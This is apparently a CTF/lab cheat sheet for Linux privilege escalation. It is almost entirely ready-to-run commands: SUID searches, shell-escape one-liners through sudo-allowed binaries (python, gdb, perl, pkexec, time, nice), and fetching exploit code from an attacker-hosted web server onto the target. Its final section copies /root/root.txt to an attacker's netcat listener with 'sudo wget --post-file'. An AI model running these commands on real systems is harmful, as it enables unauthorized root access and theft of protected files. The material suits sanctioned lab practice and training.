 - ## Privilege escalation <a name="privilegeescalation"></a>
[easy way to get root/root.txt](#root.txt)
- `cat /etc/issue`
```
find / -o -group `id -g` -perm \ 
 -g=w -perm -u=s -o -perm -o=w\
 -perm -u=s -o -perm -o=w \
 -perm -g=s -ls
```
- ```python3 -c 'import os; os.system("/bin/bash")'```
- ```python -c 'import pty; pty.spawn("/bin/bash")'```
- ```python -c 'import os; os.setuid(0); os.system("/bin/sh")'```
- `echo os.system('/bin/bash')`
```
exec "/bin/sh";
perl —e 'exec "/bin/sh";'
```
- `os.execute('/bin/sh')`
- `exec "/bin/sh"`
- ```find /  -perm -u=s -type f 2>/dev/null``` to see the permission
- Use ```linpeas``` if you are not getting any escalation
  - download the script from the github
- If It was running on Linux Kernel 4.4.0–31-generic and Ubuntu 14.04.5 LTS. use below command
  - ```wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh```
  - ```chmod +x linux-exploit-suggester.sh``` and ```./linux-exploit-suggester.sh```
  - you will get some CVE, select any one CVE in that download URL will be there using that link you can download scripts
  - ```wget (download URL in CVE)``` download the file in your system
  - run ```sudo python -m http.server 80```
  - download the file in the target system ```wget http://<myip>/<filename>```
  - example: wget http://192.168.45.161/root.cpp
 
  
 - ```bash -p```
   
- if you find ```/usr/bin/python2.7``` in sudo -l
  - then use the below command it will give you the root privilege
  - ```/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'```
 
- if you find ```/usr/bin/gbd``` in sudo -l
  - then use the below command it will give you the root privilege
  - ```/usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit```
 

- if you find ```/usr/bin/pkexec``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo pkexec /bin/bash```

- if you find ```/usr/bin/mtr``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```LFILE=/root/proof.txt```
  - ```sudo mtr --raw -F "$LFILE"```

- if you find ```/usr/bin/time``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo /usr/bin/time /bin/bash```

- if you find ```(ALL : ALL) /bin/nice /notes/*``` in ```sudo -l```
  - it shows that you can run all the files in the /notes directory with /bin/nice binary.
  - so create a script letsgetroot.sh which executes /bin/bash and gave the necessary permissions.
  - ```echo "/bin/bash" >> letsgetroot.sh``` save the file in any directory
  - ```sudo /bin/nice /notes/../home/user/letsgetroot.sh``` it will give the root access.


- if you find ```(ALL : ALL) NOPASSWD: /usr/bin/perl``` in ```sudo -l```
  - then use the below command it will give you the root privilege
  - ```sudo perl -e 'exec "/bin/bash";'```

# easy way to get root/root.txt <a name="root.txt"></a>
### 1️⃣ Read the Root Flag Using --input-file:
- Use a root-only file (/root/root.txt) as an input to wget.
- It will try to parse it as a URL, fail, and leak the content (flag) in the error.
  - `sudo wget --input-file=/root/root.txt`


### 2️⃣ Exfiltrate the Flag Using --post-file:
- Use wget to send the flag to your attack machine.
- Steps:
  - 1. On your Kali machine, start a netcat listener:
    - `nc -lnvp 443`
  - 2. On the victim (sammy), run:
    - `sudo wget --post-file=/root/root.txt http://<your-ip>:443/`
- >The flag is sent to your listener.
